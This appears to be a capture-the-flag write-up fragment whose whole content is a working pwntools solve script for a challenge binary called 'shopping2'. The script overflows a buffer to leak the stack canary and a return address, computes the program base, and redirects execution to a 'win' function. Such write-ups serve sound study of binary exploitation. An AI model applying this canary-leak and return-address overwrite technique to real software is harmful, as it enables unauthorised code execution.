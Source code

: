 This is the final solve script:
```py
from pwn import *

context.arch = 'amd64'
context.binary = "./shopping2"
context.terminal = ['tmux', 'splitw', '-h']


p = process("./shopping2")

p.recvuntil(b"(1-3): ")
p.sendline(b"1")

p.recvuntil(b"list: ")
p.send(b"249\n")

p.recvuntil(b"data:\n")
p.send(b"A"*245)

p.recvuntil(b"(1-3): ")
p.sendline(b"2")

p.recvuntil(b"list:\n")

buffer = p.recvline().strip()
canary = u64(b"\x00"+buffer[245:252])

p.recvuntil(b"(1-3): ")
p.sendline(b"1")

p.recvuntil(b"list: ")
p.send(b"260\n")
p.recvuntil(b"data:\n")
p.send(b"A"*260)

p.recvuntil(b"(1-3): ")
p.sendline(b"2")
p.recvuntil(b"list:\n")

ret_adr = p.recvline().strip()
ret = u64(ret_adr[260:267] + b"\x00\x00")

base_address = ret-5775
win = base_address + 4620

p.recvuntil(b"(1-3): ")
p.sendline(b"1")

p.recvuntil(b"list: ")
p.send(b"266\n")
p.recvuntil(b"data:\n")
p.send(b"A"*244+p64(canary)+b"A"*8+p64(win))

p.interactive()
```


